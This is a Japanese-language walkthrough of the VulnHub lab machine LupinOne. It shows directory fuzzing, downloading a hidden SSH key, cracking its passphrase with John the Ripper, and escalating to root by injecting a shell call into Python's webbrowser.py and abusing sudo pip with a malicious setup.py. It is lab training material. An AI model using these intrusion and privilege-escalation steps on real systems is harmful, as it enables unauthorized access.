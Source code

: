 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### 画像を調べる
- ステガノグラフィを調べる

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる
- ~myfilesを見ても`404 error`になる  

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- (別解)
- `gobuster fuzz -u http://$IP/~FUZZ -w /usr/share/wordlists/dirb/common.txt -b 404`
  - `secret` 異なる辞書を使っている 

### サイトを見る
- 見つけたリンクでサイトを翻訳して確認する。分かったことがある
  - このディレクトリに秘密鍵があること
  - 秘密鍵はfasttrackで解析する
  - ユーザ名はicex64であること
 
### fasttrackとは
- 移動してみる/usr/share/wordlists/fasttrackにある辞書
- `less fasttrack.txt`中身を見るとパスワードファイルらしい
- `wc fasttrack.txt`数が少ない


### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 
- (別解)
- `gobuster fuzz -u http://$IP/~secret/.FUZZ -w /usr/share/wordlists/rockyou.txt -b 404`
### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- または
- `curl -OL http://$IP/~secret/.mysecret.txt`
  - `-L`リダイレクト,`-O`標準出力せずにダウンロードする 
- コピーする
- CyberChefでペーストして、searchにbase58と入力する。Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
- Permissionを変更する
  - `chmod 700 key`
  - なぜか`chmod 777 key`にするとsshが繋がらない

### パスフレーズの解析
- sshのパスフレーズを解析するのにssh2johnを使うが、Evilboxの時と同じように改良する
- `github johntheripper bleeding-jumbo ssh2john py`で検索したコードをコピーする
- `cat > ssh2john_v2.py` ペーストする。注意点は改行してから`ctrl + c`で抜けること
- `chmod +x ssh2john_v2.py`
- john the ripperで使えるようにフォーマットを変換する
  -  `python3 ssh2john_v2.py key > passphrase.txt`
- 暗号解析
  - `sudo john passphrase.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
- パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name webbrowser* 2> /dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`




